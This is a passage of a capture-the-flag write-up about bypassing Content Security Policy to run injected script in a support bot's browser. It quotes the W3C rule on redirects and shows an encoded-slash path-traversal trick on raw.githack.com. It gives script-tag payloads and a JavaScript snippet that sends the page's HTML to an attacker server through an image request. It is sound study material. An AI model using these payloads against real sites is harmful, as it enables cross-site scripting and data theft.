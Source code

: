Access `http://my_server/csp.php?s=%3Cscript%20src=%22http://my_server/redir.php%3fr=https://raw.githack.com/myuser/myrepo/master/malicious.js%22%3E%3C/script%3E` and then IT WORKS! Is it an 0day? I am not that CSP bypass expert, so just asked another friend and he sent me the specification:

https://www.w3.org/TR/CSP11/#source-list-paths-and-redirects
> 4.2.2.3. Paths and Redirects

> To avoid leaking path information cross-origin (as discussed in **Egor Homakov’s** Using Content-Security-Policy for Evil), the matching algorithm ignores the path component of a source expression if the resource being loaded is the result of a redirect. For example, given a page with an active policy of img-src example.com not-example.com/path:

>    Directly loading https://not-example.com/not-path would fail, as it doesn’t match the policy.
>    Directly loading https://example.com/redirector would pass, as it matches example.com.
>    Assuming that https://example.com/redirector delivered a redirect response pointing to https://not-example.com/not-path, the load would succeed, as the initial URL matches example.com, and the redirect target matches not-example.com/path if we ignore its path component. 

>This restriction reduces the granularity of a document’s policy when redirects are in play, which isn’t wonderful, but given that we certainly don’t want to allow brute-forcing paths after redirects, it seems a reasonable compromise.

Thanks, [Egor Homakov](https://twitter.com/homakov)!

Back to the CTF... Now we just have to send it as a chat message, store it in our cookie and then send a feedback, right? Wrong... it simply doesn't work for the backend. (And this took me some time...) The bot who reads our message is not logged in, so the open redirect just doesn't work. Time to find another bypass...

#### CSP Bypass with Path Traversal

Ok, maybe we can encode a path traversal and bypass this CSP, something like this: `https://raw.githack.com/mattboldt/typed.js/master/lib/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2four_user/our_repo/master/malicious.js` ? Unfortunately (? :D), browsers will normalize the path. But, it won't normalize if we just encode `/`, creating a payload like `https://raw.githack.com/mattboldt/typed.js/master/lib/..%2f..%2f..%2f..%2four_user/our_repo/master/malicious.js`. This is not a new trick, since 2016 @avlidienbrunn was playing with this: https://blog.0daylabs.com/2016/09/09/bypassing-csp/.

Time to build our payload to send it as a message and feedback: `<script src="https://raw.githack.com/mattboldt/typed.js/master/lib/..%252f..%252f..%252f..%252fmanoelt/some_repo/master/malicious.js"></script>`. What we should write inside this malicious.js?

First we can download all the innerHTML to take an idea what the backend is seeing:

```javascript
var i = document.createElement("img");
i.src = "http://my_server?leak="+encodeURIComponent(document.body.innerHTML);
```

From our support page the only thing different is this:
```html
<form action="" method="POST">
  ...
  <div class="form-group pt-1">
    <input type="submit" class="btn btn-outline-primary" value="Save user">
    <input type="button" class="btn btn-outline-danger ml-2" value="Ban user" disabled="">
  </div>
  ...
</form>
```

